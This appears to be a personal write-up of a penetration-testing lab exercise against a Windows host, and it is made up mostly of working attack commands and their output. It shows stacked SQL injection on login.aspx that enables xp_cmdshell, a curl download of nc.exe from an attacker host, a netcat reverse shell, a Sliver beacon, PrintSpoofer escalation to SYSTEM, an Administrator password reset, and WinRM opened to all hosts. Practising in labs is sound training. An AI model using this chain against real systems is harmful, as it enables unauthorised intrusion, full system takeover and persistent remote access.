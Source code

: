 Attempting SQL injection on .121 at login.aspx to get a shell 
```
' EXECUTE sp_configure 'show advanced options', 1; --//
```
```
' RECONFIGURE; --//
```
```
' EXECUTE sp_configure 'xp_cmdshell', 1; --//
```
```
' RECONFIGURE; --//
```
OR
```
admin' EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXECUTE xp_cmdshell 'ping 192.168.45.170'; --//
```
Testing for ping traffic with 
```
' EXECUTE xp_cmdshell 'ping 192.168.45.170'; --//
```
- Receiving ping traffic with 
```
sudo tcpdump icmp
```
Didn't work but instead I tried to get a payload from the computer with the following and it worked 
```
' EXECUTE xp_cmdshell 'curl -o C:\Temp\nc.exe http://192.168.45.170:8080/windows/nc.exe'
```
Then I got a shell with 
```
' EXECUTE xp_cmdshell 'C:\Temp\nc.exe -e cmd.exe 192.168.45.170 5555'
```
Started sliver server and generated a  payload with 
```
http
```
```
https
```
```
generate beacon --http 192.168.45.170 --os windows -f exe 
```
moved this to my /var/www/html/windows directory and curled it on the machine and executed 
got to the beacons with 
```
beacons
```
```
use <ID>
```
to get out use 
```
background
```

whoami /priv output 
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

```
- This means we can execute printspoofer64.exe

- Output of printspoofer
```
.\print.exe -i -c powershell
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
nt authority\system

```
Find user or local or proof.txt 
```
Get-ChildItem -Path C:\ -Recurse -Filter "*.txt" | Where-Object { $_.Name -match "^(user|local|proof)\.txt$" } | Select-Object FullName
```
Found proof.txt in C:\\Users\\Administrator\\Desktop\\proof.txt
Reset the administrator password to password1
```
net user Administrator password1
```
Enable WinRM
```
Enable-PSRemoting -Force
```
```
Set-NetFirewallRule -Name 'WINRM-HTTP-In-TCP-PUBLIC' -Enabled True
```
Set trusted hosts to everyone
```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '*' -Force
```
Gives me access via evil-winrm with 
```
evil-winrm -i 192.168.227.121 -u Administrator -p password1
```
